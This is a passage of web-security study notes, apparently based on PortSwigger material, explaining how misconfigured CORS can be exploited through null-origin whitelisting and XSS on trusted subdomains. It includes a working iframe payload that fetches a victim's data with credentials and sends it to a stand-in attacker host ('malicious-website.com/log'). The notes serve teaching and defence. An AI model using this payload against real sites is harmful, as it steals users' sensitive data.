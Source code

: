 In this situation, an attacker can use various tricks to generate a cross-domain request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed `iframe` cross-origin request of the form:

```js 
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"     
src="data:text/html,<script>  
var req = new XMLHttpRequest();  
req.onload = reqListener;  
req.open('get','vulnerable-website.com/sensitive-victim-data',true);  
req.withCredentials = true;  
req.send();  
  
function reqListener() {  
location='malicious-website.com/log?key='+this.responseText;  
};  
</script>"></iframe>
```

>LAB [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)


### [[Exploiting cross-site scripting vulnerabilities | Exploiting XSS]] via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting ([XSS](https://portswigger.net/web-security/cross-site-scripting)), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

Given the following request:

```http 
GET /api/requestApiKey HTTP/1.1  
Host: vulnerable-website.com  
Origin: https://subdomain.vulnerable-website.com  
Cookie: sessionid=...
```

If the server responds with:

```http 
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com  
Access-Control-Allow-Credentials: true
```

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

>`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`


### Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:
